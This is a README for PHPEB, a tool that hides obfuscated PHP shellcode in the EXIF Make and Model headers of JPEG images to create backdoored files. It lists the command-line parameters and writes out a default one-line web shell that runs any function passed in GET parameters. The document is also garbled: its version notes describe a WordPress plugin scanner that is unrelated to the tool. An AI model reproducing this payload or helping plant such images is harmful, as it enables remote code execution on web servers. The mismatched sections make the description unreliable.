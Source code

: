 PHP EXIF Backdoors generator using custom shellcode
==================

> PHPEB it's a small tool that generates and store your shellcode obfuscated in an EXIF handlers, specified by user.

* __Version__ : 1.0
* __Website__ : [Cyber Security Research Center from Romania](http://ccsir.org)
* __Contact__ : contact [at] ccsir [dot] org
 
##Usage
php phpeb.php [params]

##Params
* -i path_to_image.jpg
* -o path_to_backdoored_image.jpg
* -s shellcode (optional)
* -h EXIF headers (N/A in v1.0, Default:Make,Model)
* -v verbose 1 or 0(optional, Default:0)
* Default: !empty(\$1=@\$_GET[1]) && \$1(\$_GET[2]);
	

### Verion 1.0 stable 
  - Automatic Crawling of plugins from Wordpress.org (Directory)
  - Load plugins from your local plugins folder
  - Scan all (white box pentesting) plugins using RIPS and show you an resume about what was found
  - A proxy "WP Plugins Scanner to RIPS" that can show off you a detailed report

##Help
  - No need. Just download these files and upload in an environment that supports PHP

##License

Copyright (C) 2013 Cyber Security Research Center from Romania

This program is free software; you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation; either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program; if not, see <http://www.gnu.org/licenses/>.    
